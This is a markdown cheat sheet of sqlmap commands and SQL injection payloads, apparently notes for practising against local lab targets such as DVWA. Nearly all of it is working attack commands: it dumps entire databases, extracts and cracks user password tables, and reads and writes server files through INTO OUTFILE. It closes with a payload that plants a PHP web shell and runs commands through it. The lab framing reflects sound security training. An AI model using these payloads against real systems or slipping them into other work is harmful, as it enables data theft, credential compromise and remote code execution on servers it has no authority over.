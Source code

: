 # SQL MAP

### Crafting Requests
1. Specifying the url and post data

```bash
sqlmap -u 'http://localhost:8008/login' --data 'login=derrida&password=notapipe' --dump-all --batch
```

2. Specifying headers as well (very similar to curl)
```bash
sqlmap --dump-all --batch -D public -u 'http://localhost:8008/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8008' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8008/login' -H 'Cookie: PHPSESSID=5v2tuaiqs8ep0l3e4ihfib1gr2; security=low' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --data-raw 'login=derrida&password=notapipe'
```

3. Using file (eg. login.txt where an intercepted request using burpsuit is pasted)

### Login
- find out current db
```bash
sqlmap -r login.txt --current-db 
```
- dump schema
```bash
sqlmap -r login.txt -D public --dump --batch
```

### Blind
```bash
sqlmap -r blind.txt --batch --search -T login --threads 3
```
# Union
For union sometimes many more parameters are needed
```bash
sqlmap -r union.txt -T logins --dump-all --batch -prefix="Basketball'" -suffix="; --" --union-cols=4
```

### DVWA
- database system
```bash
sqlmap -r dvwa_sqli.txt --dbs
```
- current database
```bash
sqlmap -r dvwa_admin.txt --current-db  
```
- tables within dvwa
```bash
sqlmap -r dvwa_admin.txt -D dvwa --tables
```
- columns
```bash
sqlmap -r dvwa_admin.txt -D dvwa -T users --columns
```
- dump table and crack passwords
```bash
sqlmap -r dvwa_admin.txt -D dvwa -T users --dump --batch
```
- dump everything
```bash
sqlmap -r dvwa_sqli.txt --dump-all --batch --threads 3
```

### Simulate bad configuration of DBMS Priviledges
```bash
docker exec -it <docker_id> /bin/bash
chmod -R 777 /var/www/html/vulnerabilities/sqli/ 
mysql -h localhost
# secure\_file\_prive is empty so users can read/write anywhere
SHOW VARIABLES LIKE 'secure_file_priv';
GRANT FILE ON *.* TO 'app'@'localhost';

# user can write and read
'UNION SELECT 'this is a test', NULL INTO OUTFILE '/var/www/html/vulnerabilities/sqli/test.txt'; #
'UNION SELECT LOAD_FILE('/var/www/html/vulnerabilities/sqli/test.txt'), NULL #

# so why not reverse shell :P
'UNION SELECT NULL,'<?php system($_REQUEST[0]); ?> 'INTO OUTFILE '/var/www/html/vulnerabilities/sqli/shell.php'; #
http://localhost/vulnerabilities/sqli/shell.php?0=whoami
```